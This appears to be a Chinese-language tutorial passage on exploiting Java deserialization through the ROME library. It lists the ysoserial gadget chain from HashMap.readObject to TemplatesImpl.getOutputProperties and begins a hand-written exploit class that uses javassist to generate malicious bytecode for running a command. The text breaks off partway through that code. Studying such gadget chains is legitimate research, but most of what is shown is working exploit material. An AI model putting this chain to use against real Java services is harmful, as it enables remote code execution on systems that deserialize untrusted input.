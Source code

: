 ## 前言

ROME 是一个可以兼容多种格式的 feeds 解析器，可以从一种格式转换成另一种格式，也可返回指定格式或 Java 对象。

ROME 兼容了 RSS (0.90, 0.91, 0.92, 0.93, 0.94, 1.0, 2.0), Atom 0.3 以及 Atom 1.0 feeds 格式。

先配置环境：

```xml
        <!-- https://mvnrepository.com/artifact/com.alibaba/fastjson -->
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
```

## 利用链&POC

看看yso中的利用链：

```
 * TemplatesImpl.getOutputProperties()
 * NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 * NativeMethodAccessorImpl.invoke(Object, Object[])
 * DelegatingMethodAccessorImpl.invoke(Object, Object[])
 * Method.invoke(Object, Object...)
 * ToStringBean.toString(String)
 * ToStringBean.toString()
 * ObjectBean.toString()
 * EqualsBean.beanHashCode()
 * ObjectBean.hashCode()
 * HashMap<K,V>.hash(Object)
 * HashMap<K,V>.readObject(ObjectInputStream)
```

手写exp：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import sun.reflect.*;
import javax.xml.transform.Templates;

public class rome {
    //为类的属性设置值
    public static void setValue(Object target, String name, Object value) throws Exception {
        Field field = target.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(target,value);
    }
    //生成恶意的bytecodes
    public static byte[] getTemplatesImpl(String cmd) {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("snakin");
```